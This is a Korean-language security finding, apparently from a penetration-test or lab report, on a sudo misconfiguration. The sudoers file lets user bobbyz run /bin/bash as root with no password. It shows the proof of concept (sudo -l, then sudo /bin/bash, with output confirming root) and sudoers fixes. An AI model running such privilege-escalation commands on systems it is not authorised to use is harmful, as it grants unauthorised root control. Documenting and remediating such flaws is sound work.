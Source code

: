 #### 취약점 설명
 - bobbyz 사용자의 sudo 권한을 잘못 설정하여 패스워드를 입력하지 않고 root 쉘 권한을 획득할 수 있는 취약점으로 확인된다.

#### 개념 증명
 - 호스트에서 ssh를 통하여 bobbyz 계정으로 로그인 한 뒤 `sudo -l` 명령어를 사용하여 bobbyz 사용자가 sudo 명령어를 사용하여 /bin/bash 쉘을 루트 권한으로 패스워드 없이 접근 가능한 것을 확인했다. 이후, `sudo /bin/bash`명령어를 사용하여 root 권한의 쉘을 획득했다.
    ```sh
    # sudo -l 명령어를 사용하여 sudo 권한 확인

    bobbyz@ip-172-31-249-155:~$ sudo -l
    Matching Defaults entries for bobbyz on ip-172-31-249-155:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User bobbyz may run the following commands on ip-172-31-249-155:
        (ALL) NOPASSWD: /bin/bash

    # sudo /bin/bash 명령어를 사용하여 root 권한 쉘 획득

    bobbyz@ip-172-31-249-155:/$ sudo /bin/bash
    root@ip-172-31-249-155:/# whoami; hostname; id

    root
    ip-172-31-249-155
    uid=0(root) gid=0(root) groups=0(root)
    ```

#### 대응 방안
 - /etc/sudoers 파일에서 bobbyz 사용자의 NOPASSWD를 제거한다.
    ```sh
    # 수정전
    bobbyz (ALL) NOPASSWD:/bin/bash
    # 수정후
    bobbyz (ALL) /bin/bash
    ```
- /etc/sudoers 파일에서 bobbyz 사용자의 실행가능한 명령어를 /bin/bash가 아닌 필요한 명령어로 변경한다.
    ```sh
    # 수정전
    bobbyz (ALL) /bin/bash
    # 수정후
    bobbyz (ALL) 필요한 명령어
    ```

#### 레퍼런스
